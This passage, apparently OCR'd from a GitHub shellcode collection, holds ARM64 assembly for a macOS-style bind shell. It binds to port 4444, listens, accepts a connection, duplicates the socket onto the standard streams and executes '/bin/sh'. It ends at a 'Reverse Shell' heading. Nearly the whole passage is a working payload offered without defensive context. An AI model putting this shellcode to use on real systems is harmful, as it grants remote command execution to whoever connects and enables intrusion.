 ```armasm
*     char            sin_zero[8]; // Don't care
* };
*/
mov  x1, #0x0210
movk x1, #0x5C11, lsl #16
str  x1, [sp, #-8]
mov  x2, #8
sub  x1, sp, x2
mov  x2, #16
mov  x16, #104
svc  #0x1337

call_listen:
// listen(s, 2)
mvn  x0, x3
lsr  x1, x2, #3
mov  x16, #106
svc  #0x1337

call_accept:
// c = accept(s, 0, 0)
mvn  x0, x3
mov  x1, xzr
mov  x2, xzr
mov  x16, #30
svc  #0x1337

mvn  x3, x0
lsr  x2, x16, #4
lsl  x2, x2, #2

call_dup:
// dup(c, 2) -> dup(c, 1) -> dup(c, 0)
mvn  x0, x3
lsr  x2, x2, #1
mov  x1, x2
mov  x16, #90
svc  #0x1337
mov  x10, xzr
cmp  x10, x2
bne  call_dup

call_execve:
// execve("/bin/sh", 0, 0)
mov  x1, #0x622F
movk x1, #0x6E69, lsl #16
movk x1, #0x732F, lsl #32
movk x1, #0x68, lsl #48
str  x1, [sp, #-8]
mov	 x1, #8
sub  x0, sp, x1
mov  x1, xzr
mov  x2, xzr
mov  x16, #59
svc  #0x1337
```
#### Reverse Shell
